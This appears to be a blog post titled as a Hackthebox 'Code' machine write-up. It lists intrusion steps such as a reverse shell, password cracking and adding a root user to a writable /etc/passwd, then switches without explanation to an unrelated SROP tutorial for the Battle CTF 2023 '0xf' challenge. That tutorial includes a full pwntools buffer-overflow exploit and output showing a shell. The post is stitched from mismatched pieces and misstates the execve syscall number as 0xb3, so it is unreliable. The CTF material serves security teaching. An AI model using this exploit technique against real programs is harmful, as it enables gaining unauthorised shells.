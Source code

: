 ```yaml
---
title: Hackthebox code machine write up 
categories: PENTEST 
image: null
published: true
---
```



H3ll0 pwn3rs !!!

![recon](/assets/hackthebox/code_pwn.png)

Here is a writeup for Hackthebox code machine
Hackthebox `Code box `  is an easy linux machine.

We exploit the machine as follow:
- Exploit RCE in python sanbox
- Make reverse shell
- Found databse file
- retrive Martin password in md5 hash
- crack the password with crackstation
- connect to ssh with martin credential
- use  linpeas to enum
- /etc/passwd is writable by martin
- create new-user root user
- switch to new-user and get access to root
# sigreturn syscall 
```
Sigreturn (syscall 0xf) is a syscall used to restore the entire register context from memory pointed at by ESP or RSP for x86_64 arch.
That said when the cpu exec syscall(rax=0xf), the program will read frame pointed by stack pointer
and restor  it value into registers. This frame has a  specific format for each CPU arch  so the CPU know that at offset xx, it is the rax register value and at offset yy it is the value of rbx
```

How this can help us to exploit a program.

If you can overwrite the stack frame after sigreturn syscall, by exploiting buffer overflow vuln for example, you can control the value of cpu registers and that is where you can do rop chain.
For instance, let said  on x86_64 by overwriting the stack frame after sigreturn syscall  call you are able to overwrite: 
- rax to 0xb3
- rdi to the address of "bin/sh" string
- rsi to 0
- rip to sycall gadget

That will let the program make execve("/bin/sh") and you get the shell.


# Pratical part
In this part, i will use Africa Battle CTF 2023 challenge to show a pratical case of this exploitation technical 

Let start !!!!!!!!!!!!!!!!!!!!!!
The challenge was named: `0xf`

The binary file `syscall` is an ELF x86_64 dynamically linkded and not stripped.

When we check mitigation we can see that the binary don't has `stack cannary` protection , `No PIE` and the stack is not executable
```bash
file syscall 
syscall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=aed719058a5efedf4d245c5c3c610937cd8d4ad7, for GNU/Linux 3.2.0, not stripped
┌─[top0n3@parrot]─[/media/top0n3/7B29B9A756CC225A/ctf/battleCTF-2023-main/Prequal/Pwn/0xf/source]
└──╼ $pwn checksec syscall 
[*] '/media/top0n3/7B29B9A756CC225A/ctf/battleCTF-2023-main/Prequal/Pwn/0xf/source/syscall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No

```


![recon](/assets/pwn/battle_0xf_recon.png)

Through gdb-gef session, we can see that the binary are  two defined function `main` and `hausa`.

i used ghidra to decompile these function .
```

undefined8 main(void)

{
  char local_38 [48];
  
  puts("Africa battle CTF 2023");
  puts("Tell us about your ethnicity:");
  gets(local_38);
  return 0;
}

undefined8 hausa(void)

{
  return 0xf;
}


```

main function call gets(local_38) so the program is vulnerable to Buffer overflow.
But what to do with this vulnerability!?
I search for gadget to make ropchain, i noticed that we don't have a lot of gadget.
By those gadgets are very interesting
```
mov rax, 0xf; ret
syscall; ret
```
if we overwrite saved rip to `mov rax, 0xf; ret` and saved rip + 8 to `syscall; ret`, the program will make signreturn syscall and.
So the the thing that we must do here is to create a frame that will help us to make execve(/bin/sh) and sand payload like this `mov rax,0xf;ret` + `syscall; ret` + our created frame data.

Pwn tool python  module can help us to create this frame . The only thing that we need is to find `/bin/sh` address and use it with our previous gadget. 
Luckly we have "/bin/sh" string on the binary.

Bellow is the final exploit

```python
from pwn import *



# Set up pwntools for the correct architecture
elf = exe = context.binary = ELF(args.EXE or 'syscall')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)


# Gadget to make srop 
bin_sh = int(next(elf.search(b'/bin/sh'))) # /bin/sh string
offset = 56  # offset to overwrite return address
mov_rax_0xf = next(elf.search(asm('mov eax ,0xf')))   # signreturn gadget
syscall_ret = next(elf.search(asm('syscall; ret')))  # syscall gadget

########################  Payload ########################
frame = SigreturnFrame(kernel='amd64') 
frame.rax = constants.SYS_execve
frame.rdi =  bin_sh
frame.rdx = 0                 # envp = NULL
frame.rip = syscall_ret  

payload = cyclic(offset)
payload += p64(mov_rax_0xf) 
payload += p64(syscall_ret)
payload += bytes(frame)

io = start()
io.sendline(payload)
io.interactive()

```

```bash
┌─[top0n3@parrot]─[/media/top0n3/7B29B9A756CC225A/ctf/battleCTF-2023-main/Prequal/Pwn/0xf/source]                                                                                        [0/3]
└──╼ $python3 exploit.py 
[*] '/media/top0n3/7B29B9A756CC225A/ctf/battleCTF-2023-main/Prequal/Pwn/0xf/source/syscall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
[+] Starting local process '/media/top0n3/7B29B9A756CC225A/ctf/battleCTF-2023-main/Prequal/Pwn/0xf/source/syscall': pid 191168
[*] Switching to interactive mode
Africa battle CTF 2023
Tell us about your ethnicity:
$ ls
__pycache__  exploit.py  flag.txt  syscall
$ cat flag.txt
battleCTF{Ethnicity_SigROP_Syscall_Army_f0d9e29e9c1d03c996083bb9c3325d33}
$  
```
and we get the flag by making `SROP`
